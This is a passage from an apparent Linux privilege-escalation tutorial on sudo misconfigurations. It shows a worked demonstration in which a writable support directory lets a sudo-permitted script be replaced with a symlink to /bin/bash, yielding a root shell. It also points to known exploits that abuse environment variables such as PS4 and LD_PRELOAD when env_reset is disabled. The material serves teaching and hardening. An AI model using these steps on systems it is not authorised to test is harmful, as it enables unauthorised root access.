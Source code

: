 It all looks good so far. So let’s have a look at these scripts:

```text
$ ls -l /opt/Support/
total 4
-rwxr-xr-x 1 root     root     37 Oct  3 14:06 restart.sh
-rwxr-xr-x 1 appadmin appadmin 53 Oct  3 14:03 start.sh
$ ls -ld /opt/Support
drwxr-xr-x 2 appadmin appadmin 4096 Oct  3 13:58 /opt/Support
```

Don’t these file and directory permissions look interesting? We have several options to escalate our privileges here, we could either:

1. Create the non-existent file “stop.sh”
2. Modify the existing file “start.sh”
3. Move the file “restart.sh” and create another file with the same filename

Here is a demonstration of the third option:

```text
$ mv /opt/Support/restart.sh{,.bak}
$ ln -s /bin/bash /opt/Support/restart.sh
$ sudo /opt/Support/restart.sh
[sudo] password for appadmin:
# id
uid=0(root) gid=0(root) groups=0(root)
```

Game over! :\)

## Environment Variables

Consider the following Sudo configuration for our user account “monitor”:

```text
$ sudo -l
[sudo] password for monitor:
Matching Defaults entries for monitor on this host:
    !env_reset
User monitor may run the following commands on this host:
    (root) /etc/init.d/sshd
```

The env\_reset option is disabled! This means we can manipulate the environment of the command we are allowed to run. Depending on the Sudo version, we may be able to escalate our privileges by passing environment variables, as illustrated by the following well-known exploits:

* PS4 \([breno](http://packetstormsecurity.com/files/41442/sudo168p10.sh.txt.html)\)
* LD\_PRELOAD \([Kingcope](http://packetstormsecurity.com/files/71988/sudo-local.txt.html) or [Sensepost](http://www.sensepost.com/blog/9108.html)\)

Also keep in mind that there may be other dangerous environment variables that we could misuse \(think of PERL5OPT, PYTHONINSPECT etc.\).

It should be noted though, that even when env\_reset is disabled, most dangerous environment variables are now safely removed by Sudo, based on a default hard-coded blacklist. Run “sudo -V” as root to see this blacklist under “Environment variables to remove”.
